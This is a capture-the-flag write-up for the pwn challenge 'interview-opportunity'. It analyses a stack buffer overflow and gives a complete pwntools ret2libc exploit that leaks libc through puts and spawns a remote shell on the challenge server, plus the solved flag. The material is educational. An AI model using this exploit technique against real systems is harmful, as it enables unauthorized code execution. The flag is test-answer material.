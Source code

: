 # pwn/interview-opportunity

## Description

Good luck on your interview...

Downloads:
[interview-opportunity](interview-opportunity) [libc.so.6](libc.so.6)

## Solution

For this challenge we are given a binary as well as a remote service. First, I checked the security settings of the
binary:

```
RELRO           STACK CANARY      NX            PIE
Partial RELRO   No canary found   NX enabled    No PIE
```

Then I took a look in ghidra:

```c
int main(int argc, char** argv) {
  char application [10];
  
  printf("Thank you for you interest in applying to DiceGang. We need great pwners like you to contin ue our traditions and competition against perfect blue.\n");
  printf("So tell us. Why should you join DiceGang?\n");

  read(0,application,70);
  puts("Hello: ");
  puts(application);

  return 0;
}
```

Clearly, we do have a buffer overflow. All we need now is to find the relevant offset and then we can exploit by first
leaking a libc address and then calling `system`.

```python
#!/usr/bin/python
from pwn import *

context.arch = 'amd64'

exe = 'interview'
elf = ELF(exe)
libc = ELF('libc')

with log.progress("Finding offset"):
    p = process(exe)
    p.recvuntil(b'DiceGang?\n')
    
    payload = cyclic(300)
    p.sendline(payload)
    p.wait()
    
    core = p.corefile
    offset = cyclic_find(p64(core.fault_addr))

p = remote('mc.ax', 31081)
p.recvuntil(b'DiceGang?\n')

with log.progress("Finding libc base"):
    rop = ROP(elf)
    rop.puts(elf.got['puts'])
    rop.main()
    
    p.sendline(fit({ offset: rop.chain()}))
    p.recvline()

    leak = p.recvuntil(b'Thank')
    leak = leak[leak.find(b'\n') + 1 : leak.find(b'Thank') - 1]
    leak = u64(leak.ljust(8, b'\x00'))
    
    libc.address = leak - libc.sym['puts']
    log.info(hex(libc.address))

with log.progress("Getting flag"):
    rop = ROP(libc)
    rop.system(next(libc.search(b'/bin/sh')))
    
    p.recv()
    p.sendline(fit({ offset: rop.chain() }))
    p.interactive()
```

Running the above gives the flag `dice{0ur_f16h7_70_b347_p3rf3c7_blu3_5h4ll_c0n71nu3}`.

